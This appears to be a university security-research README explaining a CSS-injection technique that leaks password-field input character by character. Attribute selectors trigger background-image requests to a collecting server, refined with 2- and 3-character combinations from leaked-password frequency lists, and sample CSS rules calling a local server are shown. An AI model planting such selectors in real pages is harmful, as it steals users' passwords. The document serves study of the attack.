 # Idea
By utilizing the possibilities of CSS selectors such as `input[type='password'][value$='xyz']` we can check if a password field ends with a given string. This can be used to exfiltrate the password character by character.

This idea is not new. There are already multiple implementations of this idea.
I added some improvements to the idea. See section "How it works" for more information.

# How it works

By adding multiple selectors and loading a background image from a server, we can exfiltrate the password character by character.
```
input[type="password"][value$="a"] {
    background-image: url("http://127.0.0.1:8000/?k=a");
}
input[type="password"][value$="b"] {
    background-image: url("http://127.0.0.1:8000/?k=b");
}
```

This approach has a big disadvantage. The same URL will only be requested once. This means that `hello` will by exfiltrated as `helo`.
To fix this we can generate all 2-character permutations. Let's say we have $94$ printable charaters. This will generate $94^2=8836$ selectors (which is acceptable). But this will also limit repeating patterns. Additionaly most of those permutations are rather useless. Statistically quite nobody uses `f:` inside their password. If we would extend this to 3 characters, we would have $94^3=830584$ selectors. This would be overkill.

We can easily make use of 5.000 selectors and more. To use wasted selectors, we can extract the most common 1, 2 and 3 character combinations from english passwords (like rockyou.txt).
| Combination | Count |
|-------------|-------|
| 1-char      | all   |
| 2-char      | 50 % (of the most common) |
| 3-char      | 25 % (of the most common) |
| n-char      | $100/n$ % (of the most common) |

# Usage

See the help message for usage information.
```bash
python3 server.py -h
```

The server needs a frequency histogram of the characters. You can generate one by using the `frequency_analyzer.py` script.
```bash
python3 frequency_analyzer.py -h
```

# Limitations
* Won't detect character deletion
* It can only detect character combinations once. Repeating patterns won't get exfiltrated.
* Only works if a reactive framework is used. (e.g. Angular or React) Else the password field won't be updated and the selectors won't be triggered.
* ... more to come

# Notice
This repository was created during security research at university. It is only intended for educational purposes and should not be used for illegal activities. The author assumes no liability for any damage caused by the use of the code.